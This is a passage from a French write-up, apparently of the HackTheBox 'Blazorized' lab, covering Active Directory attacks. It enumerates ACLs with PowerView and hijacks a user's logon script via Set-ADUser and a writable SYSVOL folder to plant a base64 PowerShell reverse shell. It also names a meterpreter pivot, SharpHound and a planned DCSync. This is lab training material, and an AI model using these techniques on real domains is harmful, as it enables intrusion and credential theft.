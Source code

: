 Enumérons les ACLs du domaine impliquant des permissions liées à l'utilisateur `RSA_4810`.

```
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "rsa_4810"}
```

![ACL script-path information](/images/HTB-Blazorized/write_scriptpath.png)

Il s'avère que `RSA_4810` a la permission de modifier la propriété `Script-Path` de `SSA_6010`. Lorsque j'essaie de rechercher le `scriptPath` spécifique de `SSA_6010`, le résultat est vide. Cela signifie probablement qu'aucun script de connexion n'est actuellement défini pour l'utilisateur.

![scriptPath query](/images/HTB-Blazorized/scriptPath_query.png)

Le chemin vers ces scripts est généralement relatif à un partage de réseau désigné pour les scripts de connexion, comme le répertoire `SYSVOL`, il semble que nous devons manuellement localiser le répertoire et identifier le fichier que nous pouvons modifier. Son emplacement standard est `C:\Windows\SYSVOL`.

Dans `C:\Windows\SYSVOL\sysvol\blazorized.htb\scripts` nous découvrons que nous avons les permissions `Full` sur le répertoire `A32FF3AEAA23`.

![SYSVOL directory permissions](/images/HTB-Blazorized/SYSVOL_dir_perm.png)

1. Nous définissons un script de connexion pour l'utilisateur `SSA_6010`.

```
Set-ADUser -Identity SSA_6010 -ScriptPath 'A32FF3AEAA23\revshell.bat' 
```

2. Nous plaçons un reverse shell PowerShell dans `revshell.bat`, qui sera automatiquement exécuté lorsque `SSA_6010` se connectera.

* Nous pouvons obtenir un reverse shell PowerShell (`PowerShell#3 (Base64)`) sur [revshells.com](https://www.revshells.com/).

```
 echo "powershell -e JAB..." | Out-File -FilePath C:\windows\SYSVOL\sysvol\blazorized.htb\scripts\A32FF3AEAA23\revshell.bat -Encoding ASCII 
```

![Logon script revshell](/images/HTB-Blazorized/logon_script_revshell.png)

Sur notre listener, nous obtenons un shell sous le nom de `SSA_6010`.

![SSA_6010 shell](/images/HTB-Blazorized/SSA_6010_shell.png)

## Elévation de Privilèges

Nous passons à un shell meterpreter, téléchargeons SharpHound sur la cible et l'exécutons une seconde fois.

`SSA_6010` fait partie du groupe `Super_Support_Administrators`.

![SSA_6010 group memberships](/images/HTB-Blazorized/SSA_6010_group_membership.png)

Les membres de ce groupe ont le droit `DCSync` sur le contrôleur de domaine. Nous pouvons utiliser ce droit pour réaliser une attaque DCSync et obtenir le hachage du mot de passe de l'administrateur.
